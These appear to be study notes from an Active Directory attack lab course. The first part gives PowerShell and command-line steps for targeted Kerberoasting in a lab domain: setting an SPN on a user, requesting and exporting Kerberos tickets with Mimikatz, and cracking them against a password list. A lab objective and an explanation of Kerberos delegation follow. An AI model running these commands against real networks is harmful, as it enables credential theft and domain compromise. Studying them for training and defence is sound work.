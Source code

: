 #### Using Active Directory module
```powershell
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='ops/whatever1'}
```

#### Request a ticket
```powershell
Add-Type -AssemblyNAme System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityTok en -ArgumentList "ops/whatever1"
```

`Request-SPNTicket` from PowerView can be used as well for cracking with John or Hashcat.

#### Check if the ticket has been granted 
```powershell
klist.exe 
```

####  Export all tickets using Mimikatz
```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"' 
```

####  Brute-force the password 
```cmd
python.exe .\tgsrepcrack.py .\10k-passwords.txt '.\2- 40a10000-student1@ops~whatever1- dollarcorp.moneycorp.LOCAL.kirbi'
```

# Learning Objective 16

- Determine if studentx has permissions to set UserAccountControl flags for any user. 

- If yes, force set a SPN on the user and obtain a TGS for the user.

# Kerberos Delegation

• Kerberos Delegation allows to "reuse the end-user credentials to access resources hosted on a different server". 

• This is typically useful in multi-tier service or applications where Kerberos Double Hop is required. 

• For example, users authenticates to a web server and web server makes requests to a database server. The web server can request access to resources (all or some resources depending on the type of delegation) on the database server as the user and not as the web server's service account. 

• Please note that, for the above example, the service account for web service must be trusted for delegation to be able to make requests as a user.

![[Pasted image 20230106211117.png]]

1. A user provides credentials to the Domain Controller. 
2. The DC returns a TGT. 
3. The user requests a TGS for the web service on Web Server.
4. The DC provides a TGS.
5. The user sends the TGT and TGS to the web server. 
6. The web server service account use the user's TGT to request a TGS for the database server from the DC.
7. The web server service account connects to the database server as the user.
